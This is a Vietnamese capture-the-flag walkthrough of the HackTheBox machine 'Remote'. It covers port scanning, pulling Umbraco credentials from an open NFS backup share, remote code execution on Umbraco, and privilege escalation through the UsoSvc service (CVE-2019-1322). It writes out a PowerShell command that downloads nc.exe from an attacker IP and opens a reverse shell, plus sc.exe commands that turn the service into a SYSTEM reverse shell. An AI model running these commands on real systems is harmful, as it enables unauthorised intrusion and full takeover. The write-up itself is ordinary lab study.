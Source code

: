![image](https://hackmd.io/_uploads/SkdLLpx20.png)

# Machine info and Comment
## Machine info
[Link](https://app.hackthebox.com/machines/Remote/information) 

## Comment

# Recon
## nmap
Sử dụng nmap ta, scan được vài port trong đó có ftp, http, nfs và smb
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -n -sS 10.10.10.180       
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-31 10:31 EDT
Nmap scan report for 10.10.10.180
Host is up (0.23s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 3.85 seconds
```
Từ đây, ta sẽ scan tiếp các port này xem có gì để khai thác
```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo nmap -p21,80,111,135,139,445,2049 -sCV 10.10.10.180 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-31 11:56 EDT
Nmap scan report for 10.10.10.180
Host is up (0.23s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-31T15:57:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.33 seconds
```

## Port 21  - ftp
Từ nmap ta có thể thấy được có thể login không cần credential

![image](https://hackmd.io/_uploads/S1OMkplhC.png)

Tuy nhiên nó lại trống 

## Port 80 - http
Ta được điều hướng đến 1 trang web: 

![image](https://hackmd.io/_uploads/HJGtkpx20.png)

### whatweb
Ta biết được nó sử dụng CMS **Umbraco**

![image](https://hackmd.io/_uploads/H1X1g6ghR.png)

### Gobuster
Scan có khá nhiều path nhưng không có tính năng gì có thể khai thác ngoài `/umbraco` dẫn đến 1 form login 

![image](https://hackmd.io/_uploads/Bk0ue6l3A.png)

![image](https://hackmd.io/_uploads/rkYjgae2A.png)

### Searchsploit
Sử dụng searchsploit thì thấy lỗ hổng có thể RCE tuy nhiên phải có credential

![image](https://hackmd.io/_uploads/HJIgb6g2A.png)

### Port 445 - SMB
Ta sẽ kiểm tra xem máy chủ này có shared folder nào không
```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient -N -L //10.10.10.180
session setup failed: NT_STATUS_ACCESS_DENIED
```
### Port 2049 - NSF
Sử dụng `showmount` thấy được thư mục `site_backups`
```
┌──(kali㉿kali)-[~/Downloads]
└─$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```
![image](https://hackmd.io/_uploads/ryilUTl3A.png)

Sau khi tìm hiểu [google](https://stackoverflow.com/questions/36979794/umbraco-database-connection-credentials) ta biết được credential nằm ở `Umbraco.sdf`

![image](https://hackmd.io/_uploads/SkS3_axnC.png)

![image](https://hackmd.io/_uploads/Sy28vTl20.png)

# User flag
## Exploit
### John The Ripper
Từ trên ta biết được một mã hash và nó dùng SHA1:

![image](https://hackmd.io/_uploads/SJ66P6e3R.png)

`adminadmin@htb.local:baconandcheese`

### [46153.py]
Vì đã có được credential, nên ta chỉ cần sửa lại payload và chạy 
```
Invoke-WebRequest -Uri http://10.10.14.93:8888/nc.exe -OutFile C:/windows/temp/nc.exe; C:/windows/temp/nc.exe 10.10.14.93 1234 -e powershell
```

![image](https://hackmd.io/_uploads/BynaYpxh0.png)

![image](https://hackmd.io/_uploads/HkVg9pg3A.png)

## Post-Exploit
```
PS C:\windows\system32\inetsrv> type C:\Users\Public\Desktop\user.txt
type C:\Users\Public\Desktop\user.txt
411e7b340a802f7d1e****
```

# Root flag 
## Exploit
Ta sẽ tìm xem có service UsoSvc (CVE-2019-1322) đang chạy không
```
PS C:\windows\temp> Get-Service | Where-Object { $_.Name -eq "UsoSvc" }
G
et-Service | Where-Object { $_.Name -eq "UsoSvc" }

Status   Name               DisplayName                           
------   ----               -----------                           
Running  UsoSvc             Update Orchestrator Service  
```
### CVE-2019-1322
Dễ dàng thực hiện các bước và lấy được quyền root
```
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\windows\system32> sc.exe config usosvc binPath="C:\windows\temp\nc.exe 10.10.14.93 4444 -e cmd.exe"
PS C:\windows\system32> sc.exe qc usosvc
PS C:\windows\system32> sc.exe start UsoSvc
```
![image](https://hackmd.io/_uploads/Hy8p8Cl3R.png)


## Post-Exploit
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
3d36638eac064e0a0******
```
![image](https://hackmd.io/_uploads/HytvQAenA.png)


